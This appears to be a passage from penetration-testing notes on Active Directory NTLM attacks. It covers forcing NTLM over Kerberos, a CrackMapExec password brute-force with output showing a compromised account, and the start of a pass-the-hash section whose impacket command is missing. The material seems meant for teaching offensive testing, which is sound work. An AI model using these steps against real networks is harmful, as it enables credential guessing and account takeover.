 ```
    |                 | <--------------------------- | <-------------------- |
    |                 |                              |                       |
    |   application   |                              |                       |
    |    messages     |                              |                       |
    | --------------> |                              |                       |
    |                 |                              |                       |
    | <-------------- |                              |                       |
    |                 |                              |                       |
    | --------------> |                              |                       |
    |                 |                              |                       |
```

#### How do we force NTLM authentication over Kerberos?

A way to force NTLM authentication over Kerberos is to connect to the target machine by using the IP address instead of the hostname, since Kerberos requires the hostname to identify the machine services.

For example the command `dir \\dc01\C$` will use Kerberos to authenticate against the remote [share](https://zer1t0.gitlab.io/posts/attacking\_ad/#shares) while `dir \\192.168.100.2\C$` will use NTLM.

#### **How does NTLM brute-force work?**

We now know that NTLM is used for authenticating, so we could use plenty of tools ([hydra](https://github.com/vanhauser-thc/thc-hydra), [nmap](https://nmap.org/nsedoc/scripts/smb-brute.html), [cme](https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference#using-usernamepassword-lists), or [Invoke-Bruteforce.ps1](https://github.com/samratashok/nishang/blob/master/Scan/Invoke-BruteForce.ps1)) to test for a working password:

```
$ cme smb 192.168.100.10 -u elfelixio -p passwords.txt 
SMB         192.168.100.10  445    WS01-10          [*] Windows 10.0 Build 19041 x64 (name:WS01-10) (domain:contoso.local) (signing:False) (SMBv1:False)
SMB         192.168.100.10  445    WS01-10          [-] contoso.local\anakin:1234 STATUS_LOGON_FAILURE 
SMB         192.168.100.10  445    WS01-10          [-] contoso.local\anakin:Vader! STATUS_LOGON_FAILURE 
SMB         192.168.100.10  445    WS01-10          [+] contoso.local\anakin:Vader1234! (Pwn3d!)
```

We also need to remember that in active directory, authentication works by verifying credentials with the DC so this can lead to account block and will lead to a lot of logs

#### How does pass the hash woks?

Since NTLM calculates the NTLM hash and the session key based on the NT hash, we can use this hash to athenticate and impersonate the user even without cleartext password

{% content-ref url="attacking-vectors/methodology/post-compromise-attacks/pass-the-hash.md" %}
[pass-the-hash.md](attacking-vectors/methodology/post-compromise-attacks/pass-the-hash.md)
{% endcontent-ref %}

On a linux host we could use impacket that accepts the hashes as parameter:


[dc01]: PS C:\Users\Administrator\Documents> whoami
[dc01]: PS C:\Users\Administrator\Documents> hostname